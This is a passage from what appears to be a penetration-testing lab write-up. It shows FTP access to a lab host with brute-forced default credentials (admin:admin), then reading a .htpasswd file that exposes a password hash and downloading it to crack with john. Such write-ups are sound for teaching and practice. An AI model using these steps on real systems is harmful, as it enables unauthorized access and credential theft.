 - We got valid credential for user **admin**. It is **admin:admin**.

---

## Validating ftp credentials

- Using brute-forced Credential

```bash
ftp admin@192.168.55.46
Connected to 192.168.55.46.
220 zFTPServer v6.0, build 2011-10-17 15:25 ready.
331 User name received, need password.
Password: 
230 User logged in, proceed.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

---

## Information Gathering admin ftp

- There are **.htpasswd** file with encrypted password.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||2053|)
150 Opening connection for /bin/ls.
total 3
-r--r--r--   1 root     root           76 Nov 08  2011 index.php
-r--r--r--   1 root     root           45 Nov 08  2011 .htpasswd
-r--r--r--   1 root     root          161 Nov 08  2011 .htaccess
226 Closing data connection.
ftp> less .htpasswd
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

---

## Decryption of the password using john

- Downloaded the **.htpasswd** file

```bash
ftp> get .htpasswd
local: .htpasswd remote: .htpasswd
229 Entering Extended Passive Mode (|||2055|)
150 File status okay; about to open data connection.
100% |*************************************************************|    45      935.00 KiB/s    00:00 ETA
226 Closing data connection.
45 bytes received in 00:00 (1.07 KiB/s)
ftp> 
```
